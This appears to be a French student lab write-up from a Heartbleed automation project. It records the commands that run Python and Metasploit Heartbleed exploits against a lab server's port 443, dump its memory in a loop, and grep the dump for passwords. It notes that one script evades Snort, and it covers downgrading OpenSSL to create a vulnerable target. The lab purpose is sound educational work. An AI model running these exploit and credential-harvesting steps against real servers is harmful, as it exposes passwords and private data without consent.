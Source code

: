 
## **CHAP4A** ## Les étapes sur la VM pentest pour attaquer le serveur :



### Script Python : dump la RAM avec les identifiants et leur mot de passe :
Ce script est plus précis et affiche plus d'information, de plus il plus discret que le prochain script. Par conséquent, Snort ne remarque pas de comportements suspicieux.

sudo python /home/etudiant/heartbleed-automation/python/exploit.py 192.168.1.49 -p 443 




### Script Python : dump en boucle la RAM

Le dump est une action qui permet de copier afin de reconstituer dans notre cas la RAM
Ce script Python permet de récupérer (dump), 1150 fois :


sudo python /home/etudiant/heartbleed-example/heartbleed.py 192.168.1.49 -p 443 -n 1150 > /home/etudiant/reject_exploit.log


Ainsi nous affichons l'ensemble des mot de passes 
cat -n /home/etudiant/reject_exploit.log | grep assword | sort | uniq -c | cat -n

### Les étapes sur la VM pentest pour attaquer le serveur : metasploit :
Ce script bash automatise l'installation et l'exploit avec metasploit
sudo /home/etudiant/heartbleed-automation/bash/msf/metasploit_heartbleed_loop.sh


Cet exploit metasploit est détectée par l'IDPS.



## **CHAP4A -- Annexes** ## Pour rétrograder OpenSSL -----


J'ai aussi essayer d'autre méthode afin de faire confiance à une source obsolète avec apt-key add 

J'ai installé les dépôts de Wheezy et tenté de configuré de cette manière cependant j'ai été confronté à des problèmes car les dépôts sont obsolètes, parfois les paquets dépendent de libssl qui doit lui aussi être rétrogradé.


J'ai appris à vérifier les versions disponibles par apt, à reconfigurer les listes de sources d'apt.
https://github.com/amineAUPEC/heartbleed-automation/blob/e74c191b1fd59251cefbc6f20719d3718d0b61f6/markdown/debian_wheezy/recap.md

Cependant je n'ai pas eu le temps de tester en installant Wheezy car cela prenait trop de temps et que Wheezy sera bientôt obsolète.


J'ai appris aussi à utiliser  : openssl  comme en tant que serveur web
- Pour démarrer le serveur  :
openssl s_server -key /etc/apache2/ssl/apache.key -cert /etc/apache2/ssl/apache.crt -accept 443 -www
